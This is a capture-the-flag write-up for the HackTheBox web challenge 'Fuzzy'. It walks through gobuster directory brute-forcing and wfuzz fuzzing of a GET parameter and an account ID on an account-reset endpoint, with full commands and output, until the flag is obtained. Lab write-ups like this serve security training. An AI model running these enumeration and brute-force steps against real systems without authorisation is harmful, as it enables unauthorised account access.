

# Fuzzy (HackTheBox) (WEB-APP Challenge)

Welcome Readers, Today we will be doing the hack the box (HTB) challenge

# Finding the Page

We have this nice website in front of us..


<br/>

Let's start off with our basic gobuster..

**Command**

```gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm```

**Command Explanation**
 - -w (wordlist)
 - -t (50 threads)
 - -x (Look for these extensions in the bruteforce)

**OUTPUT**
```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : htm,php,txt,html
[+] Timeout      : 10s
=====================================================
2019/07/11 00:48:35 Starting gobuster
=====================================================
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/api (Status: 301)
```

Now we got an interesting directory named ```api``` let's gobuster this now...

**Command**

```
gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/api/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,txt,html,htm
[+] Timeout      : 10s
=====================================================
2019/07/11 00:50:53 Starting gobuster
=====================================================
/index.html (Status: 200)
/action.php (Status: 200)
```

We found the ```action.php``` Let's see what we have on this one ...

<br/>



<br/>

```
Error: Parameter not set
```

So now we need to find the GET parameter which will be used at this endpoint

## Finding the parameter

For this we will use ```wfuzz``` which can be found [here](https://github.com/xmendez/wfuzz)

**Command**
```
wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
```
**Command Explanation**
 - --hh (filter the length of characters in source code)
 - -c   (Output with colors)
 - -w   (Wordlist)
 - FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

```
[sarthak@sarthak tmp]$ wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test 
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000015356:   200        0 L      5 W      27 Ch       "reset"                                                               

Total time: 399.9509
Processed Requests: 20469
Filtered Requests: 20468
Requests/sec.: 51.17877
```

Now we have found our parameter which is ```reset``` let's see what this parameter gives us ...

<br/>


<br/>

```
Error: Account ID not found
```

Now we will have to bruteforce the ```Account ID```

## Finding Account ID

We will again use wfuzz for it but this time we will set the character length to 27 (You can find this by simply counting it)...

**Command**

```
wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000000318:   200        0 L      10 W     74 Ch       "20"
```

So we got the account ID let's finalise the url and see what's the output...

```
URL:-http://docker.hackthebox.eu:42566/api/action.php?reset=20
```

### OUTPUT

<br/>


<br/>

And we got the flag ..it was a nice little challenge thanx to my friend [stephen](http://web.archive.org/web/20190421032826im_/https://ppfactory.tk/wp-content/uploads/2019/02/IMG_20181231_001959_644.jpg) with whom i solved this challenge :)
<br/>
Thank you guys if you like this writeup stay tuned for more !!
